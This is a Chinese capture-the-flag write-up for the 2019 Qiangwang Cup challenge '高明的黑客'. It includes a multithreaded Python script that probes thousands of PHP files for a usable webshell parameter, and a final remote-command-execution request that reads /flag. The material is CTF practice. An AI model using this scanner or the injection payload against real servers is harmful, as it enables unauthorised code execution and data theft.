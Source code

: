 ```yaml
---
title: 高明的黑客 
date: 2024-05-24 21:08:43 
tags: 题解 
categories: 刷题笔记
---
```


## [强网杯 2019]高明的黑客

打开页面，下载www.tar.gz文件，文件里是几千个php文件，根本没法看，不过里面包含很多shell

<!-- more -->

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019110700315145.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2EzMzIwMzE1,size_16,color_FFFFFF,t_70)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191107003202741.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2EzMzIwMzE1,size_16,color_FFFFFF,t_70)

不过很多`shell`都没用，所以我们猜测这几千个`php`文件中肯定含有可以使用的shell，我们只有写脚本去试了。

我们先把下载下来的文件放入phpstudy的apache目录下，在本地打开，然后运行这个脚本

```
import os
import requests
import re
import threading
import time
print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(100)  							  			#这儿设置最大的线程数
filePath = r"D:/soft/phpstudy/PHPTutorial/WWW/src/"
os.chdir(filePath)													#改变当前的路径
requests.adapters.DEFAULT_RETRIES = 5								#设置重连次数，防止线程数过高，断开连接
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False											 # 设置连接活跃状态为False
def get_content(file):
    s1.acquire()												
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:							#打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}														#所有的$_POST
    params = {}														#所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file
    req = session.post(url, data=data, params=params)			#一次性请求所有的GET和POST
    req.close()												# 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:									#如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()												# 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()												# 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:													#flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:															#加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()

```

得到结果

![image-20240524213911364](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405242139479.png)

我们在原网页中rce

```
xk0SzyKwfzw.php?Efa5BVG=cat%20/flag
```

![image-20240524214032610](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405242140808.png)

得到flag
